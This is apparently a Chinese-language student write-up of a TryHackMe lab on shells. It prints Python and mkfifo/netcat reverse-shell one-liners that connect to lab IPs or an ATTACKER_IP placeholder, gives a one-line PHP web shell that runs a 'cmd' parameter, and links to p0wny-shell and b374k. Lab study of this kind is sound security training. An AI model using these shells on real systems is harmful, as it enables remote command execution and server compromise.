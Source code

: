 #### 2.使用 subprocess 模块的 Python 反向 Shell
```
target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```
该反向shell使用该subprocess模块生成一个shell，并通过导出环境变量命令设置与Python反向shell类似的环境。

#### 3.简短的 Python 反向 Shell
```
target@tryhackme:~$ python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
这个反向 shell 创建一个套接字 ( s)，连接到攻击者，并使用将标准输入、输出和错误重定向到套接字 os.dup2()。

![task6](/img/user/images/tryhackme-shell：概括/task6.png)

## task7
web shell

Web Shell 是用受感染 Web 服务器支持的语言编写的脚本，可通过 Web 服务器本身执行命令。Web Shell 通常是一个文件，其中包含执行命令和处理文件的代码。它可以隐藏在受感染的 Web 应用程序或服务中，因此很难被发现，在攻击者中非常受欢迎。

PHP Web Shell示例
让我们看一个PHP Web Shell 示例来了解这个过程是如何工作的：
```
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

上述shell可以保存到以PHP为扩展名的文件中，例如shell.php ，然后由攻击者利用无限制文件上传(Unrestricted File Upload)、文件包含(File Inclusion)、命令注入(Command Injection)等漏洞， 或通过获取未经授权的访问将其上传到Web服务器。  

在线web shell

[p0wny-shell](https://github.com/flozz/p0wny-shell)——一个简约的单文件PHP web shell，允许远程命令执行。

[b374k shell](https://github.com/b374k/b374k) - 功能更丰富的PHP web shell，具有文件管理和命令执行等功能。

![task7](/img/user/images/tryhackme-shell：概括/task7.png)

## task8
来俩练练手
![task7](/img/user/images/tryhackme-shell：概括/task8.png)

第一问 我是用了反弹shell
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc  10.10.250.106 443 >/tmp/f

nc -lvnp 443
```
